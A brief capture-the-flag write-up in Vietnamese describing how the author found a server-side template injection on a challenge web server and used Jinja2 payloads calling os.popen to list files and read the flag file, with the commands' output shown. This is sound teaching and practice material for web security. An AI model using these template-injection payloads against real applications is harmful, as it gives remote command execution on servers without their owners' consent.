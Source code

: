 # Description

- Fuzzing được **SSTI** vuln tại `http://61.28.237.24:30103/{{7*7}}`. Test thử `{{config}}` vẫn work ngon lành, đoán chắc không filter gì rồi.
- Quất luôn payload test rce (`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`) và **BOOOM** Output : ```Sorry /__pycache__ app.py requirements.txt is under construction. Please try again later```
- Flag tại **/flag_HKOOS2lrdD** và payload cuối cùng `{{config.__class__.__init__.__globals__['os'].popen('cat /f*').read()}}` => ```Sorry /HCMUS-CTF{404_teMpl4t3_1njEctIon} is under construction. Please try again later```

